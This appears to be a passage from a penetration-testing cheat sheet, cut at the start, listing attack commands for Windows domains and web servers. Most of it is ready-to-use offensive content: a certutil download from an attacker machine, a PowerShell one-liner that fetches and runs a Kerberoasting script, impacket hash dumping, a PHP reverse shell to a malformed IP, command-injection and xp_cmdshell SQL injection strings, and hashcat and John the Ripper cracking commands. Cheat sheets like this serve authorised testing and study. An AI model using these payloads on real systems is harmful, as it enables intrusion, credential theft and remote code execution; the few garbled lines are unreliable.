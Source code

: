 3. `cat /path/to/encoded.b64 | base64 -d > exploit.py`

Remove Server - Powershell 
	
Certutil

```
certutil.exe -urlcache -split -f "http://ip.for.kali.box/file-to-get.zip" name-to-save-as.zip
```

Kerberoasting
----------------
- `GetUserSPNs.py -request -dc-ip <DC_IP> <domain\user>`

- `powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat`

- `impacket-secretsdump -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER> -outputfile filename.hashes`

LFI / RFI
----------------
PHP Reverse Shell:
<?phpexec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10/1234 0>&1'");

Command Injection:
<?php echo shell_exec(whoami);?>
- For more info on LFI & RFI please refer to the LFI / RFI section at the top of the page ^

MSSQL / SQLi
----------------
- EXEC master..xp_cmdshell 'whoami';
- meh' exec master..xp_cmdshell 'whoami' --
- https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md
- http://pentestmonkey.net/category/cheat-sheet/sql-injection

MSSQL (Query to compare pass to hash using built in pwdcompare function)
----------------
```sql
select * from syslogins
where pwdcompare('password', PassColumnName)=1
```
[![MSSQL Hash Crash Video](https://i.ytimg.com/vi/5dbWjS24ieE/hqdefault.jpg)](https://www.youtube.com/embed/5dbWjS24ieE)
	
<iframe width="1024" height="768" src="https://www.youtube.com/embed/5dbWjS24ieE" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>	
	
Password Cracking
----------------
Hashcat
- `hashcat -m 500 -a 0 -o cracked_password.txt --force hash.txt /path/to/your/wordlist.txt`

John The Ripper
- `john --rules --wordlist=/path/to/your/wordlist.txt hash.txt`
